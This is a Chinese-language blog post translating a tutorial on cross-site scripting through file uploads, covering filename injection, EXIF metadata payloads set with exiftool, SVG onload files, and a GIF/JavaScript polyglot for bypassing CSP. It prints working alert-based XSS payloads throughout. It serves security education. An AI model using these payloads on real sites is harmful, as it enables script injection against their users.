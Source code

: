 ```yaml
---
title: 翻译 upload-xss
date: 2018-6-3 1:50:30
tags: Web安全
toc: true
---
```


> 没有完全按原文翻译
> 原文 https://brutelogic.com.br/blog/file-upload-xss/?utm_source=ReviveOldPost&utm_medium=social&utm_campaign=ReviveOldPost

上传文件是XSS的绝佳机会。带有上传个人资料图片的用户受限区域无处不在，为寻找开发者的错误这里提供了更多机会。如果它恰好是一个 self XSS，那就看看前一篇文章 http://brutelogic.com.br/blog/leveraging-self-xss/

基本上有如下攻击点：

### Filename
---
文件名本身他可能输出到页面，
![](https://i1.wp.com/brutelogic.com.br/blog/wp-content/uploads/2016/04/xss-gif-filename.gif)

尽管不被注意，可以在这里练习 [w3school](http://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_fileupload_value)

### Metadata
---
使用 [exiftool](http://www.sno.phy.queensu.ca/~phil/exiftool/) 修改 EXIF metadata ,导致 xss
> $ exiftool -FIELD=XSS FILE

Example:
```
$ exiftool -Artist=’ “><img src=1 onerror=alert(document.domain)>’ brute.jpeg
```
![](https://i2.wp.com/brutelogic.com.br/blog/wp-content/uploads/2016/04/exif-brute-collage.jpg)

### Content
---
如果应用允许上传 SVG 扩展文件，文件内容如下也会触发 xss

> <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

一个例子在[brutelogic.com.br/poc.svg](http://brutelogic.com.br/poc.svg) 查看源码可看 poc

### Source
---
构建一个 GIF image 携带 js payload，去 bypass CSP , 前提是在同域下 ：
![](https://i2.wp.com/brutelogic.com.br/blog/wp-content/uploads/2016/04/xss-gif-source.gif)
去创建一个 image 使用如下内容和 .gif 后缀
> GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;

开头代表 GIF 文件(GIF89a)，使用变量赋值,为了防止图像识别为text/HTML MIME类型，注释XSS攻击向量，从而允许通过请求文件执行 payload。
正如下面看到的，如果用 PHP 函数 exif_imagetype() and getimagesize() 识别，会识别为 GIF 文件 
![](https://i2.wp.com/brutelogic.com.br/blog/wp-content/uploads/2016/04/xss-gif.png)
For more file types that can have its signature as ASCII characters used for a javascript variable assignment, check [this](https://en.wikipedia.org/wiki/List_of_file_signatures).

绕过 GD library 的例子 [here](https://github.com/d0lph1n98/Defeating-PHP-GD-imagecreatefromgif)



